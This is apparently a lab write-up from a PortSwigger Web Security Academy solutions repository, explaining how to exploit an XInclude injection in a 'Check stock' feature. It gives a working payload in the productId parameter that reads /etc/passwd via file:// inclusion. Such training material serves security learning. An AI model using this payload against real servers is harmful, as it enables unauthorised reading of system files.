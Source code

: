 # Lab 7: Exploiting XInclude to retrieve files

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

## Solution
> Manual Exploitation
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the productId parameter to:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

> Automating the process
- [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/XXE%20Injection/lab-07/lab-07-script.py)

## Video Solution
- [Sommer's Video](https://youtu.be/PrlUHmjnyTQ)
- [Seven Seas Security's Video](https://youtu.be/uY9nFxsbbOs)
